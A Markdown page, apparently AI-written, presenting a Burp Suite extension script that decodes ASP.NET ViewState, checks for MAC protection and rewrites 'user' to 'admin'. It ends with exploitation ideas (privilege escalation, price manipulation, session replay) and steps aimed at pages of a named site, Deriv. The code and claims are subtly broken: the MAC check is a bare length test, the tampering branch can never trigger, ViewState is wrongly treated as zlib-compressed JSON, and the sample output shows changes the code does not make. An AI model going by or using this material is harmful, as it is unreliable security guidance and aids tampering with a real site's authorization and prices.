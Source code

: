### **Burp Suite Python script** (BApp **Extender**) to automate **ViewState analysis** and detect vulnerabilities like **missing MAC protection, sensitive data exposure, and modifiable parameters**.  

### **Burp Suite ViewState Testing PoC**
- **Decodes** ViewState from requests/responses  
- **Checks for MAC protection**  
- **Finds sensitive data** in ViewState  
- **Modifies ViewState parameters** to test security  

---

### **Steps to Use**
1. Open **Burp Suite**.
2. Go to **Extender → Extensions**.
3. Click **Add** → Select **Python**.
4. Paste this script and run it.

---

### **PoC Script: Automated ViewState Testing in Burp Suite**
```python
from burp import IBurpExtender, IHttpListener
import base64
import re
import zlib

class BurpExtender(IBurpExtender, IHttpListener):
    
    def registerExtenderCallbacks(self, callbacks):
        self._callbacks = callbacks
        self._helpers = callbacks.getHelpers()
        callbacks.setExtensionName("ViewState Analyzer")
        callbacks.registerHttpListener(self)
        print("[*] ViewState Analyzer Loaded - Monitoring Requests & Responses...")
    
    def processHttpMessage(self, toolFlag, messageIsRequest, messageInfo):
        try:
            # Get request or response
            request = messageInfo.getRequest() if messageIsRequest else messageInfo.getResponse()
            request_str = self._helpers.bytesToString(request)

            # Look for ViewState in the request or response
            viewstate_match = re.search(r"__VIEWSTATE=(.*?)(&|$)", request_str)
            if viewstate_match:
                encoded_viewstate = viewstate_match.group(1)
                
                # Decode ViewState
                decoded_viewstate = self.decode_viewstate(encoded_viewstate)

                if decoded_viewstate:
                    print("\n[+] ViewState Found!")
                    print("[*] Decoded ViewState:\n", decoded_viewstate)

                    # Check for MAC protection (20-byte hash)
                    if len(base64.b64decode(encoded_viewstate)) > 20:
                        print("[*] ViewState appears to be MAC protected.")
                    else:
                        print("[!] ViewState is NOT MAC protected! Potential vulnerability.")

                    # Check for sensitive data
                    sensitive_keywords = ["user", "role", "session", "admin", "price", "discount"]
                    for keyword in sensitive_keywords:
                        if keyword in decoded_viewstate.lower():
                            print(f"[!] Possible sensitive data in ViewState: {keyword}")

                    # Test ViewState modification (only if MAC is NOT enabled)
                    if "NOT MAC protected" in request_str:
                        modified_viewstate = self.modify_viewstate(decoded_viewstate)
                        print("[*] Modified ViewState for testing:", modified_viewstate)
                        # Here, you can automate sending this modified ViewState via Burp

        except Exception as e:
            print("[ERROR] Exception occurred:", str(e))

    def decode_viewstate(self, encoded_viewstate):
        try:
            decoded_data = base64.b64decode(encoded_viewstate)
            return zlib.decompress(decoded_data, -15)  # ASP.NET often uses zlib compression
        except Exception:
            return None  # Failed to decode

    def modify_viewstate(self, decoded_viewstate):
        try:
            # Example: Change role from "user" to "admin"
            return decoded_viewstate.replace("user", "admin").replace("customer", "admin")
        except Exception:
            return None  # Failed to modify
```

---

### **How This Works**
- **Intercepts HTTP traffic** in Burp Suite.
- **Extracts ViewState values** from requests/responses.
- **Decodes and decompresses ViewState** (ASP.NET usually uses **Base64 + zlib compression**).
- **Checks for MAC protection** (looks for a 20-byte hash at the end).
- **Scans for sensitive keywords** (`user, role, session, price, discount`).
- **Modifies ViewState** (e.g., changing `"user"` to `"admin"`) to test for privilege escalation.

---

### **Expected Output**
#### **Case 1: MAC-Protected ViewState**
```
[*] ViewState Found!
[*] Decoded ViewState:
   {"user": "customer", "discount": "10%"}
[*] ViewState appears to be MAC protected.
```

#### **Case 2: Unprotected ViewState (Vulnerable)**
```
[*] ViewState Found!
[*] Decoded ViewState:
   {"user": "customer", "discount": "10%"}
[!] ViewState is NOT MAC protected! Potential vulnerability.
[!] Possible sensitive data in ViewState: user
[*] Modified ViewState for testing: {"user": "admin", "discount": "100%"}
```
---

### **Bug Bounty Exploitation Use Cases**
✔ **Privilege Escalation:** Change `"user"` to `"admin"`.  
✔ **Price Manipulation:** Modify `"price": "100"` → `"price": "1"`.  
✔ **Session Hijacking:** If ViewState contains session data, extract & replay it.  
✔ **Business Logic Abuse:** Override discounts, subscriptions, etc.

---

### **Next Steps**
1. Run the script in Burp Suite.
2. Test different **pages** on Deriv (some may lack MAC protection).
3. Check if **role escalation, discount tampering, or session leaks** work.
4. If vulnerable, submit a **PoC** with screenshots/logs.

